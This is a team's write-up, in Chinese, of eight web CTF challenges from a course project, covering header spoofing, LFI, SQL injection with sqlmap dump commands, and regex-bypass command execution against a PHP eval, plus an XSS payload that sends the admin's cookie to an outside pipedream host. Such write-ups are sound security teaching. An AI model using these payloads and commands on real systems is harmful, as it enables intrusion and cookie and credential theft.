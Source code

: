 # CTF Project 3

Created: May 6, 2022 10:32 PM

# Team

- 第 7 組
- 7777777

---

# 1. pekora

## Writeup

這題在考 X-Forwarded-For

首先我們先看原始碼，可以看到圖片的alt，先把他 Base64 decode ，可以得到 flag 的前半段

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled.png)

透過題目的提示，我們透過在 Header 新增一個 Key: X-Forwarded-For, Value: 127.0.0.1，並重新傳送 Request，就可以得到 flag 的後半段。

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%201.png)

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%202.png)

然後我們可以看到 Set-Cookies 有一個 _flags ，合理推斷這是 flag 的中間，接著把這三個接起來就是 flag。

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%203.png)

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%204.png)

---

# 2. checkcheck

## Writeup

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%205.png)

看原始碼可以發現你打帳號密碼之後按 send 會去 POST "[http://ctf.adl.tw:12002/flag](http://ctf.adl.tw:12002/flag)"

如果你今天輸入 admin 00000000 會因為 HTML 的 code 被擋掉

所以我們就用 Network tool 直接更改 request 內容就拿到 flag 了

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%206.png)

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%207.png)

---

# 3. aqua

## Writeup

看 robots.txt 可以發現關鍵的檔案

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%208.png)

我們下載 `.admin_backend.php.swp`

用 vim -r 去找出他原始碼

可以找到帳號密碼是多少

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%209.png)

之後我們去請求並把帳號密碼打在後面就拿到 flag

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2010.png)

---

# 4. ****Hololive EN I****

## Writeup

1. 這題有很多不同的Page，所以我們使用LFI的想法解題
    
    ![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2011.png)
    
2. 用路徑爆破工具+通靈找到login.php
    
    ![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2012.png)
    
    ![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2013.png)
    
3. 透過PHP Filter查PHP原始碼，並且編碼為Base64
    
    ![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2014.png)
    
4. 將PHP解碼回utf8，並且得到flag
    
    ![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2015.png)
    

---

# 5. ****Hololive EN II****

## Writeup

1. 同第4題先進入到login.php
2. 用sql injection
    
    ![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2016.png)
    
    ![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2017.png)
    

---

# 6. ****Hololive EN III****

## Writeup

1. 同第4題先進入到login.php
2. 透過第5題的提示可以知道 flag 是 gura 的密碼
    
    ![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2017.png)
    
3. 用 sqlmap 這個工具慢慢把 password leak 出來就拿到 flag 了
    
    查有哪些 databases:
    
    `python [sqlmap.py](http://sqlmap.py/) -u [https://holoen.ctf.adl.tw/login.php](https://holoen.ctf.adl.tw/login.php) --forms --dbs`
    
    ![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2018.png)
    
    查某個 database 有哪些 tables
    
    `python [sqlmap.py](http://sqlmap.py/) -u [https://holoen.ctf.adl.tw/login.php](https://holoen.ctf.adl.tw/login.php) --forms -D ctf_users --tables`
    
    ![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2019.png)
    
    查某個 databases 中某個 table 有哪些欄位
    
    `python sqlmap.py -u https://holoen.ctf.adl.tw/login.php --forms -D ctf_users -T users --columns`
    
    ![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2020.png)
    
    把某個欄位的資料都 dump 出來
    
    `python sqlmap.py -u https://holoen.ctf.adl.tw/login.php --forms -D ctf_users -T users -C password --dump`
    
    ![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2021.png)
    

---

# 7. msg_board

## Writeup

考XSS

admin會一直重複來看這個留言板

所以我們要想辦法偷到admin的cookie

我們先去創一個webserver

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2022.png)

然後我們在留言板打我們的payload

因為<script>跟<img>都被擋掉了

所以就使用<image>

```jsx
<image src=x onerror=this.src='https://eo1csyx4f9imvkz.m.pipedream.net/?'+document.cookie;>
```

![[當圖片不存在時，會執行onerror裡面的script](https://blog.csdn.net/qq_37899792/article/details/90369134)](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2023.png)

[當圖片不存在時，會執行onerror裡面的script](https://blog.csdn.net/qq_37899792/article/details/90369134)

接著就拿到flag了

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2024.png)

Reference: 

[WebHacking101/xss-reflected-steal-cookie.md at master · R0B1NL1N/WebHacking101](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)

---

# 8. bee

## Writeup

從 source code 可以看到是考 regex bypass 

```php
if(isset($_POST["num"])) 
    {
        $wl = preg_match('/^[0-9\?\@\+\-\*\/\(\)\'\.\~\^\|\&\\\\\"\_[\] ]+$/i', $_POST["num"]);
        if($wl === 0 || strlen($_POST["num"]) > 100) {
            die("<a href='https://www.youtube.com/watch?v=SQb-bNedGpQ' target=_blank >Bye-Bye <3</a>");
        }

        echo 'Result: ';
        
        eval("echo ".eval("return ".$_POST["num"].";").";");
    }
    ?>
```

因為有正則表達式的限制，我們必須利用 xor 去組合出我們想要的字串

```python
string_code = ['`cat /flag`', ]
obfuscated_code = ""
charset = "0123456789?@+-*/()'.~^|&_[] "

for code in string_code:
    obfuscated = ""
    for i in code:
        is_found_obfuscated = False
        for j in charset:
            for k in charset:
                if ord(j) ^ ord(k) == ord(i):
                    is_found_obfuscated = True
                    obfuscated += ".('%s'^'%s')" % (j, k)
                    # print("XOR ="+chr(ord(j) ^ ord(k)))
                if is_found_obfuscated:
                    break
            if is_found_obfuscated:
                break
        if not is_found_obfuscated:
            obfuscated += ".'%s'" % i
    # print("(%s) = (%s)" % (code, obfuscated[1:]))
    obfuscated_code += "(%s)" % obfuscated[1:]
print(''.join(["(\"%s\")" % i for i in string_code]) + '=' + obfuscated_code)
print(len(''.join(["(\"%s\")" % i for i in string_code]) +
      '=' + obfuscated_code))
```

一開始我們使用 `ls`，發現 flag 並不在這

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2025.png)

我們輸入 `ls /`，發現 flag

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2026.png)

輸入 `cat /flag`，拿到 flag

![Untitled](CTF%20Project%203%2018e205b1a9a0401eb24c7d9a610bc792/Untitled%2027.png)